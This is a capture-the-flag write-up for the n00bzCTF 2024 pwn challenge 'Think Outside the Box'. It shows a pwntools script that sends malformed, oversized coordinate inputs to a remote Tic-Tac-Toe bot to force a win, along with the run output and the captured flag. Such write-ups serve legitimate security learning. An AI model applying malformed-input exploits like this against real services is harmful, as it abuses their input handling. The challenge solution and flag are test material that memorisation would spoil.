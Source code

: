
						![](attachment/b525cca891743bde0dd6216253c5fda9.png)

## Challenge's Description 

You cannot beat my Tic-Tac-Toe bot! If you do, you get a flag! Author: `NoobMaster`
### Attachments

- [thinkoutsidethebox.zip](https://static.n00bzunit3d.xyz/Pwn/Think-outside-the-Box/thinkoutsidethebox.zip)

## Solution

This challenge in my opinion is more like misc-pwn than a casual pwn chall but it was fun!

If we reverse it and try to beat it with just normal moves we will see isn't possible and the best outcome that we could do it's just a draw. So, we must think a way to confuse the binary to lose.
After I while I manage to beat it with this tactic. 
I listed many more coordinates than expected and the bot got confused and started to lose rounds. So, we can play in whatever move we want to do a ticktacktoe and win!

**exploit.py**

```python
#!/usr/bin/env python3
from pwn import *

#p = process('./tictactoe')
p = remote('challs.n00bzunit3d.xyz', 10308)

p.recv(1000)

p.sendline(b'0,111111111111111111111111')
p.sendline(b'1,111111111111111111111111')
p.sendline(b'2,111111111111111111111111')
p.sendline(b'2,2')

success(p.recvall()) 
```

```sh
┌──(vein㉿vein)-[~/sec/n00bzCTF2024/pwn-Think_Outside_The_Box]
└─$ ./exploit.py    
[+] Opening connection to challs.n00bzunit3d.xyz on port 10308: Done
[+] Receiving all data: Done (534B)
  self._log(logging.INFO, message, args, kwargs, 'success')
[+]  _ | _ | _ 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | _ 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | O 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | O 
    You won! Flag: n00bz{l173r4lly_0u7s1d3_7h3_b0x_L0L_d398529a6316}
```